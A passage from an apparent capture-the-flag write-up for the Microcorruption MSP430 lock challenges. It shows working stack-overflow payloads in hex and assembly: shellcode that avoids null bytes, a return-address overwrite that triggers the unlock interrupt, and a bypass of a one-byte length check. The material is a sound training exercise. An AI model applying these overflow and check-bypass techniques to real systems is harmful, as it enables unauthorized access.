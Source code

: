 The problem is that our payload includes the `00` byte which `strcpy` interprets as the end of the string, so it stops there. To get around this, we can modify our payload to hide the `00` byte. Thankfully, the only `00` that we have is in our interrupt code: `7f00`. So, we can just hide it by using some maths, like `7f11-0011 = 7f00`. No null byte in the code 🏴‍☠️. Let's modify our payload. We will use `r15` as a temporary register for computing the interrupt code

```
mov #0x7f11,r15
add #-0x11,r15
push r15
call	#0x454c
```

The above code assembles into

```
3f40117f3f50efff0f12b0124c45AAAAee43
```

After trying this I had some troubles due to `sr` redister which turns off the CPU before the interrupt gets called. So, why mess with assembly payload at all, when we can just overwrite the first argument of `INT` to be `0x7f` by putting it on the stack? It reads the interrupt code from the stack right at the start of the function anyways. Let's try this payload:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa4c45bbbb7f00
```

And yes, this is indeed a much simpler solution. The door unlocks.

## Johannesburg
Observation: we can overwrite first few functions using prompt, stack still overflows. There is a password length check that avoids calling `ret` in an attempt to prevent the stack overflow.

```
4578:  f190 4600 1100 cmp.b	#0x46, 0x11(sp)
457e:  0624           jz	$+0xe <login+0x60>
4580:  3f40 ff44      mov	#0x44ff "Invalid Password Length: password too long.", r15
4584:  b012 f845      call	#0x45f8 <puts>
4588:  3040 3c44      br	#0x443c <__stop_progExec__> ; if the password is too long, we wont reach ret
```

The password length check just checks one byte at some memory location:

```
cmp.b	#0x46, 0x11(sp)
```

We can easily set this byte to 0x46 and bypass the check:

```
424242424242424242424242424242424246
```

Done 💀. Now we can overflow the return address.
Let's use our `0x7f` payload from before. The `INT` address is `0x4594` this time:

```
424242424242424242424242424242424246944543437f00
```
